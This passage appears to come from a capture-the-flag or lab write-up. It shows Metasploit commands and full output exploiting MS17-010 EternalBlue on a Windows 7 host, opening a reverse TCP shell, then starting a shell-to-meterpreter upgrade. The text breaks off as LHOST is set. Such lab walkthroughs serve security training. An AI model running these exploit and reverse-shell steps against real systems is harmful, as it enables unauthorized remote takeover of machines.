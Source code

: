 msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target-ip>
RHOSTS => <target-ip>

msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp{% endraw %}{% endcapture %} {% include code.html code=code %}

Exploit to get the shell. Background the shell to escalate privileges.
{% capture code %}{% raw %}msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on <source-ip>:4444
[*] <target-ip>:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] <target-ip>:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] <target-ip>:445       - Scanned 1 of 1 hosts (100% complete)
[*] <target-ip>:445 - Connecting to target for exploitation.
[+] <target-ip>:445 - Connection established for exploitation.
[+] <target-ip>:445 - Target OS selected valid for OS indicated by SMB reply
[*] <target-ip>:445 - CORE raw buffer dump (42 bytes)
[*] <target-ip>:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] <target-ip>:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] <target-ip>:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] <target-ip>:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] <target-ip>:445 - Trying exploit with 12 Groom Allocations.
[*] <target-ip>:445 - Sending all but last fragment of exploit packet
[*] <target-ip>:445 - Starting non-paged pool grooming
[+] <target-ip>:445 - Sending SMBv2 buffers
[+] <target-ip>:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] <target-ip>:445 - Sending final SMBv2 buffers.
[*] <target-ip>:445 - Sending last fragment of exploit packet!
[*] <target-ip>:445 - Receiving response from exploit packet
[+] <target-ip>:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] <target-ip>:445 - Sending egg to corrupted connection.
[*] <target-ip>:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to <target-ip>
[*] Command shell session 1 opened (<source-ip>:4444 -> <target-ip>:49186) at 2021-04-24 03:00:24 +0000
[+] <target-ip>:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] <target-ip>:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] <target-ip>:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>^Z
Background session 1? [y/N]  y{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Escalate

From `msfconsole -q` console, convert the regular shell to `meterpreter` shell. Get the options, set required variables and set the backgrounded shell `session`.
{% capture code %}{% raw %}msf5 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter

msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

Name     Current Setting  Required  Description
----     ---------------  --------  -----------
HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
LPORT    4433             yes       Port for payload to connect to.
SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.31.24